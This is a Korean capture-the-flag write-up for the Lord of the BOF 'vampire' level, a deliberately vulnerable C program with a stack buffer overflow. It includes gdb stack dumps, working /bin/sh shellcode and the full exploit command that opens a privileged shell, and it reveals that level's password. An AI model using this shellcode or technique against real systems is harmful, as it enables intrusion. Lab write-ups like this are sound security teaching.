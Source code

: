 ```yaml
---
title: "[LOB]Level09. vampire"
tags: [Wargame, LOB, Write-up]
author: eli_ez3r
key: 20180829
modify_date: 2018-08-29
article_header:
  type: cover
  image:
    src: 
---
```


[Check 0xBFFF](#){:.button.button--outline-success.button--pill}

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - vampire
        - check 0xbfff
*/
#include <stdio.h>
#include <stdlib.h>

main(int argc, char *argv[])
{
	char buffer[40];

	if(argc < 2){
		printf("argv error\n");
		exit(0);
	}

	if(argv[1][47] != '\xbf')
	{
		printf("stack is still your friend.\n");
		exit(0);
	}

    // here is changed!
    if(argv[1][46] == '\xff')
    {
        printf("but it's not forever\n");
        exit(0);
    }

	strcpy(buffer, argv[1]);
	printf("%s\n", buffer);
}
```

-----

### 0x01. Analysis

lret의 2번째 값이 '\xff'이면 안된다..;;

그외에는 별거 없다.



스택에서 버프의 위치가 0xbfff 영역에 존재하기 때문에 필터링에 걸릴 수 밖에 없다.

따라서 argv[2]의 많은 값의 데이터를 넣어서 버퍼의 주소가 0xbfff영역을 벗어나게 만들어야 한다.



```shell
[troll@localhost troll]$ ./aampire `python -c 'print "\x90"*44+"\xff\xff\xbf\xbf"'` `python -c 'print "\x90"*70000'`

릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱옜
Segmentation fault (core dumped)
```

```sh
[troll@localhost troll]$ gdb -c core -q
Core was generated by `./aampire 릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱옜 릱릱릱릱릱릱릱릱릱릱'.
Program terminated with signal 11, Segmentation fault.
#0  0xbfbfffff in ?? ()
(gdb) x/4x $esp
0xbffeeb50:     0x00000000      0xbffeeb94      0xbffeeba4      0x40013868
```

argv[2]에 NULL값을 70000개 넣었더니 esp값이 0xbffexxxx 영역을 가리키고 있는 것을 확인하였다.



```sh
(gdb) x/100x $esp
=====================================(생략)================================
0xbffeec80:     0x00000000      0x38366900      0x2f2e0036      0x706d6161
0xbffeec90:     0x00657269      0x90909090      0x90909090      0x90909090
0xbffeeca0:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffeecb0:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffeecc0:     0xbfbfffff      0x90909000      0x90909090      0x90909090
0xbffeecd0:     0x90909090      0x90909090      0x90909090      0x90909090
(gdb)
```

그리고 실제 Shell Code가 올라가는 주소는 `0xbffeeca0` 근처 인것도 확인하였다.

-----

### 0x02. Exploit

```
shell(24byte) = \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80
```

```sh
[troll@localhost troll]$ ./vampire `python -c 'print "\x90"*20+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e \x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"+"\xa0\xec\xfe\xbf"'` `python -c 'print "\x90"*70000'`
릱릱릱릱릱릱릱릱릱릱1픐h//shh/bin됥PS됣솻
                                         ?좎
bash$ id
uid=508(troll) gid=508(troll) euid=509(vampire) egid=509(vampire) groups=508(troll)
bash$ my-pass
euid = 509
music world
```

-----

